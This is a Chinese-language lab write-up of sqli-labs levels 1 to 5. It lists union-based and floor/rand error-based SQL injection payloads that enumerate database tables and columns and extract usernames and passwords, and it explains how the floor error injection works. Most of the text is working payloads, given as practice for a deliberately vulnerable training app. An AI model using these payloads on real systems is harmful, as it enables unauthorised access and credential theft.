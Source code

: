 # Sqli
### 0x01 less1
- 简单的union联合注入
- `?id=1'`有报错信息
- `?id=1' and '1' = '1`回显正常,可以判断为字符型注入.
- `?id=0' order by 3 --+`判断共三列
- `?id=0' union select 1,2,database() --+`
- `?id=0' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+`爆表名,发现users.
- `?id=0' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+`爆字段名,发现username,password.
- `?id=0' union select 1,2,group_concat(username,password) from users --+`查询得账号密码.
### 0x02 less2
数字型注入，方法类似less1，不需要闭合单引号

### 0x03 less3
字符型注入，方法类似less2，需要闭合双引号

### 0x04 less4
![Markdown](http://i1.fuimg.com/723602/122ba3487e448fca.png)
使用了双引号和括号，闭合方法`1") order by 3 --+
注入方式同less1

### 0x05 less5

```php
if($row)
{
  echo '<font size="5" color="#FFFF00">';	
  echo 'You are in...........';
  echo "<br>";
  echo "</font>";
} else {	
echo '<font size="3" color="#FFFF00">';
print_r(mysqli_error($con));
echo "</br></font>";	
echo '<font color= "#0000ff" font size= 3>';	
}
```
没有回显但是会打印报错信息，可以报错注入，可以用floor也可以用sleep
- 首先还是判断注入类型为单引号字符型，共三列
-`?id=1' union select 1,count(*),concat_ws('-',(select database()),floor(rand(0)*2)) as a from information_schema.tables group by a --+`
- `?id=1' union select 1,count(*),concat_ws('-',(select group_concat(table_name) from information_schema.tables where table_schema='security'),floor(rand()*2)) as a from information_schema.tables group by a --+`
- `?id=1' union select 1,count(*),concat_ws('-',(select group_concat(column_name) from information_schema.columns where table_name='users'),floor(rand()*2)) as a from information_schema.tables group by a --+`
- `?id=1' union select 1,count(*),concat_ws('-',(select concat_ws(user,password) from users,floor(rand()*2)) as a from information_schema.columns group by a --+`
- `?id=-1' union select 1,count(*),concat_ws('-',(select concat_ws('-',id,username,password) from users limit 0,1),floor(rand()*2)) as a from information_schema.columns group by a--+`
- 这里就不得不提一下floor报错注入的原理了，首先报错是由于rand在与group by子句一起使用时多次计算导致的.
- ![Markdown](http://i1.fuimg.com/723602/be7c46ede7fd3ca5.png)
- 这类语句其实会创建一个虚拟表，结构是count(*) + key，如图
- 假设这样一种情况，第一次查询floor(rand(0)*2)返回1或0任意一个数，虚拟表中不存在key为1或0的字段，则floor(rand(0)*2)再次计算返回值为1，将1作为key插入表中，count(*)加一，第二次查询为floor(rand(0)*2)返回值为0，虚拟表中不存在key为0的字段，则floor(rand(0)*2)再次计算返回值为1，将1作为key插入表中，这时表中已经存在key为1的字段，就会报错.
